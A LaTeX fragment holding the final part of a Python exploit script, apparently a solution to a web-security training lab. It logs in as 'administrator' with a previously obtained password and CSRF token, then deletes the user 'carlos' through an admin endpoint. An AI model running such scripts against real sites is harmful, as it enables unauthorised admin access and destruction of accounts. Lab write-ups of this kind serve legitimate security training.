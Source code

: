 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}
    s2.post(f"{base_url}/login", data={
        'csrf': csrf,
        'username': 'administrator',
        'password': admin_password
    }, verify=False, proxies=PROXIES, timeout=15)

    print("[+] Logged in as administrator")

    # Phase 4: Delete carlos
    print("[*] Phase 4: Deleting carlos...")
    r = s2.get(f"{base_url}/admin/delete?username=carlos",
               verify=False, proxies=PROXIES, timeout=15)

    if r.status_code == 200:
        print("[+] Carlos deleted successfully!")
        return True

    return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        sys.exit(2)

    success = exploit(sys.argv[1].rstrip('/'))
    sys.exit(0 if success else 1)
\end{verbatim}
\par

\subsection{Bash Exploitation Script}
\end{document}
